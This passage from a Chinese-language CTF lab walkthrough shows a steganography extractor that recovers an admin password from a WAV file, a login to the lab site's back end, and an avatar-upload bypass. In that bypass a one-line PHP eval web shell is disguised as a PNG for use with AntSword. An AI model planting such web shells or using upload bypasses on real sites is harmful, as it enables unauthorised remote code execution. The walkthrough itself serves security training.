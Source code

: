 ```python
            
        print(f"提取完成 -> {fout}")

    except Exception as e:
        print(f"错误: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("用法: python3 extract.py <输入wav> <输出文件>")
        sys.exit(1)
    
    ext(sys.argv[1], sys.argv[2])
                                  
```

执行脚本后，我们得到了一个名为 `a` 的文件。使用 `strings` 命令查看这个文件的内容，在开头部分发现了一组凭据。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ python3 lsb.py music.wav a
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ strings a |head -n 10 
admin@liverpool12
z       K>p
aLPu
pQV=i
$1]4
UDPs
$$@D
n>h'2
gu]@
TeHE$Zd
```

我们成功找到了隐藏的密码：`admin@liverpool12`。

# 三、初始访问

## 1. 后台登录与文件上传

使用 `admin@`chabaidao.dsz 邮箱和刚找到的密码 `admin@liverpool12` 成功登录了主站 `http://chabaidao.dsz/` 的后台。

![image-20250717225850690](https://7r1UMPHK.github.io/image/20250717225851014.webp)

后台个人资料页面有一个头像上传功能，提示只允许上传图片格式。这是一个典型的突破口。我们采用以下步骤绕过限制：

1.  准备一个蚁剑的ant.php文件，将其改名为ant.png进行上传(php反弹shell无法有效执行)

> ```
> ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
> └─$ cat ant.png
> <?php eval($_POST['ant']); ?>
> ```
